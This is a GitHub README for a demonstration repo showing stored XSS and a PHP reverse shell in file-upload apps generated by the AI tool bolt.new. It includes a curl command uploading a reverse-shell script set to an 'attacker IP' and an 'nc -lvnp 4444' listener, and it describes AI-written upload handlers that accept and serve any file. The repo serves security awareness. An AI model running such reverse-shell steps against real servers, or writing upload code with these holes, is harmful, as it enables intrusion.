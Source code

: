 # bolt-pwn 🔥  
**XSS and Reverse Shell vulnerabilities in AI-generated webapps**

Earlier this week I tested [bolt.new](https://bolt.new), an AI tool for generating fullstack web apps in the browser.  
It's fast, flashy… and dangerously naive when it comes to security.

This repo contains two projects I asked it to generate — both with serious vulnerabilities.

---

## 💣 What’s Inside

### `/node/` — Stored XSS

A Node.js + EJS file upload utility generated by Bolt.  
**Vulnerability**: Allowed uploading `.html` files, served them directly — no sanitization.

🧪 Run the server:

```bash
cd node && npm install && npm run dev
```

🧪 Payload: [xss.html](node/payload/xss.html) — upload this file  
🔗 Visit `/uploads/<filename>` in your browser to trigger the script and verify that the JavaScript executes.

---

### `/php/` — Reverse Shell (RCE)

A PHP file upload handler that:
- Accepts all file types
- Uses original filenames
- Serves uploads from a public directory

🧪 Run the server:

```bash
cd php && php -S localhost:8080
```

🧪 Payload: [shell.php](php/payload/shell.php) — insert your private IP or attacker IP and upload it `curl -F 'file=@shell.php' http://localhost:8080/api/upload.php`   
💥 Visit `/uploads/shell.php` and ensure you have a listener running:

```bash
nc -lvnp 4444
```
---

## ⚠️ Disclaimer

This repo is for educational and awareness purposes only.
Please don’t deploy this as-is, and don’t use these techniques unethically.

---

## 🧠 Takeaway

AI tools can build working software in seconds — but they don’t think like attackers.
You still need to review the code, validate inputs, and secure your apps.

---

## 📎 Related Post

Read the background and see the screenshots on my [website](https://lillevang.dev/blog/bolt-vulnerabilities/) or in the origina [LinkedIn post](https://www.linkedin.com/posts/jeppelillevang_vibecoding-ai-development-activity-7321456876259303424-soUS?utm_source=share&utm_medium=member_desktop&rcm=ACoAAAIDUx4Bm-1Hxlq6SSERPwMmANPcGL5UTZc)

More blog content coming soon.
